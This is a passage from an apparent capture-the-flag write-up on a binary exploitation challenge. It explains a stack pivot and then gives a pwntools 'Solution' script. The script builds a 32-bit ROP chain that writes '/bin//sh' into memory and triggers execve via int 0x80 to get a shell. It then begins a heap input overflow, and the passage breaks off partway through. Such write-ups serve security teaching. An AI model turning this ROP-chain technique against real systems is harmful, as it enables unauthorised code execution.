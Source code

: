 Being able to write extra data on the stack affords us multiple gadgets we can now use to set up our stack pivot, instead of limiting us to only 1 gadget. 

From there, it is a simple matter of generating the right gadgets and determining the right offsets within our user input to place them at. 

Putting everything together, the following exploit will grant us a shell.

## Solution
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys
from struct import pack

def rop_chain():
  p = ''
  p += pack('<I', 0x0807030a) # pop edx ; ret
  p += pack('<I', 0x080ed000) # @ .data   
  p += pack('<I', 0x080bd226) # pop eax ; ret
  p += '/bin'
  p += pack('<I', 0x080a3a1d) # mov dword ptr [edx], eax ; ret
  p += pack('<I', 0x0807030a) # pop edx ; ret
  p += pack('<I', 0x080ed004) # @ .data + 4
  p += pack('<I', 0x080bd226) # pop eax ; ret
  p += '//sh'
  p += pack('<I', 0x080a3a1d) # mov dword ptr [edx], eax ; ret
  p += pack('<I', 0x0807030a) # pop edx ; ret
  p += pack('<I', 0x080ed008) # @ .data + 8
  p += pack('<I', 0x08055b40) # xor eax, eax ; ret
  p += pack('<I', 0x080a3a1d) # mov dword ptr [edx], eax ; ret
  p += pack('<I', 0x080481c9) # pop ebx ; ret
  p += pack('<I', 0x080ed000) # @ .data   
  p += pack('<I', 0x080e76ad) # pop ecx ; ret
  p += pack('<I', 0x080ed008) # @ .data + 8
  p += pack('<I', 0x0807030a) # pop edx ; ret
  p += pack('<I', 0x080ed008) # @ .data + 8
  p += pack('<I', 0x08055b40) # xor eax, eax ; ret
  p += pack('<I', 0x0807cd76) # inc eax ; ret
  p += pack('<I', 0x0807cd76) # inc eax ; ret
  p += pack('<I', 0x0807cd76) # inc eax ; ret
  p += pack('<I', 0x0807cd76) # inc eax ; ret
  p += pack('<I', 0x0807cd76) # inc eax ; ret
  p += pack('<I', 0x0807cd76) # inc eax ; ret
  p += pack('<I', 0x0807cd76) # inc eax ; ret
  p += pack('<I', 0x0807cd76) # inc eax ; ret
  p += pack('<I', 0x0807cd76) # inc eax ; ret
  p += pack('<I', 0x0807cd76) # inc eax ; ret
  p += pack('<I', 0x0807cd76) # inc eax ; ret
  p += pack('<I', 0x08048ef6) # int 0x80
  return p

def exploit(r):
  r.recvuntil("Choice: ")  
  
  # heap chunk 1
  r.sendline("1")
  r.recvuntil(": ")
  r.sendline("131") 
  r.recvuntil(": ")
  r.sendline("A"*131) 
  r.recvuntil("Choice: ")
  